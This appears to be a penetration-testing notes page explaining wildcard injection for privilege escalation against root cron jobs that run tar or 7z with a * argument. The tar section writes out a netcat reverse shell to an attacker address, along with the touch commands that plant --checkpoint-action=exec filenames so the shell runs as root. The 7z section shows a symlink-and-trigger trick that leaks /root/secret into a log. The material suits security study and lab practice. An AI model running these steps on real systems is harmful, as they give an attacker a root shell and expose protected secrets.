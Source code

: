 # Wildcard Injection

## Tar

**Wildcard injection** is a privilege escalation technique that abuses how shell wildcards (`*`) expand to filenames. If a privileged script (like a cron job) runs a command such as:

```bash
tar -zxf file.tar.gz *
```

...and we control the directory it's run in, we can create files with names like:

* `--checkpoint=1`
* `--checkpoint-action=exec=sh shell.sh`

These are interpreted by `tar` as **command-line options**, not regular files. This lets us inject malicious behavior — like running our own script as `root` — when the privileged `tar` command executes.

```
[ You control a writable dir ] 
         ↓
[ Cron runs: tar -zxf backup.tar.gz * ]
         ↓
[ You create fake files named as tar options ]
         ↓
* expands to:
    --checkpoint=1
    --checkpoint-action=exec=sh shell.sh
         ↓
[ tar executes your shell.sh as root ]
```

We can use [`pspy`](../../../infra-tools/pspy.md) or [manually enumerate](../#scheduled-jobs) the target host:

{% code overflow="wrap" %}
```bash
# Enumerate running processes
$ ./pspy
2025/05/24 20:46:01 CMD: UID=0     PID=30275  | /bin/bash -c cd /opt/admin && tar -zxf /tmp/backup.tar.gz *

# Manually enumerate cron jobs
$ cat /etc/crontab
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```
{% endcode %}

The cronjob runs every two minutes as `root` and extracts the `backup.tar.gz` tarball from the `/tmp` directory into the `/opt/admin` directory using a wildcard (`*`). If we have access on the target directory (`/opt/admin`) we can perform a wildcard injection:

```bash
# Check the target directory's permissions
$ ls -ld /opt/admin
drwxr-xr-x 2 cassie cassie 4096 Nov  2  2022 /opt/admin
```

{% code overflow="wrap" %}
```bash
# Generate a reverse shell payload command on the attacking host
$  msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.X.154 LPORT=443 R
...
mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/sh >/tmp/bhksuw 2>&1; rm /tmp/bhksuw
```
{% endcode %}

In order for this to work, we must create both the `--checkpoint` files and the payload script (`shell.sh`) within the target directory (`/opt/admin`) before the cron job runs. This makes the `*` expand to those filenames, effectively injecting the checkpoint options into `tar`:

{% code overflow="wrap" %}
```bash
# Move into the target directory
$ cd /opt/admin

# Create the reverse shell script
$ echo "mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/bash >/tmp/bhksuw 2>&1; rm /tmp/bhksuw" > shell.sh

# Assing execute permissions to the script
$ chmod +x shell.sh

# Create a checkpoint the executes the script
$ touch -- "--checkpoint-action=exec=sh shell.sh"

# Create the checkpoint trigger
$ touch -- "--checkpoint=1"

# Create an empty tarball within the /tmp directory
$ tar -czf /tmp/backup.tar.gz --files-from=/dev/null

# Confirm that everything is in place
$ ls -l
total 4
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint-action=exec=sh shell.sh
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint=1
-rwxr-xr-x 1 cassie cassie 102 May 25 09:35 shell.sh

$ ls -l /tmp/back*
ls -l /tmp/back*
-rw-r--r-- 1 cassie cassie 45 May 25 09:44 /tmp/backup.tar.gz
```
{% endcode %}

## 7z

In 7-Zip, when a file prefixed with `@` is present in the working directory, the binary interprets it as a **list file**—that is, a file that contains the paths of other files to be compressed. This behavior can be leveraged to leak the contents of privileged files under the right conditions. Even if the filename begins with `--`, which normally indicates the end of command-line options, 7-Zip still processes `@filename` as a list file, treating the referenced path as the source of file paths to include in the archive.

If a privileged process, such as a `root`-owned cronjob, runs a command like:

```bash
7za a /backup/filename.zip -t7z -snl -p<pass> -- *
```

and if the current working directory is world-writable, it's possible to introduce two specific files: a symbolic link and a trigger:

* The symlink, named `secret.txt`, should point to the file intended to be read, such as `/root/secret`.
* The trigger file, `@secret.txt`, simply needs to exist to instruct 7-Zip to treat `secret.txt` as a list file.

When the cronjob executes, 7-Zip attempts to parse `secret.txt` as a list of files. However, since `/root/secret` likely contains plain text and not valid file paths, **7-Zip throws an error while trying to parse it which often includes part or all of the file's content in the output**. If the command’s standard output or error is logged—as is commonly the case with cronjob output redirected to a log file—this results in the contents of the restricted file being exposed through the log.

```bash
$ cat /etc/crontab
* *     * * *   root    bash /opt/backup.sh
​
$ cat /opt/backup.sh
#!/bin/bash
password=`cat /root/secret`
cd /var/www/html/uploads
rm *.tmp
7za a /opt/backups/backup.zip -p$password -tzip *.zip > /opt/backups/backup.log

# Write access to the target directory
$ ls -ld /var/www/html/uploads
drwxr-xr-x 2 www-data www-data 4096 Aug  7 13:25 /var/www/html/uploads
​
# Create the required files
$ cd /var/www/html/uploads
$ ln -s /root/secret secret.zip
$ touch @secret.zip
```
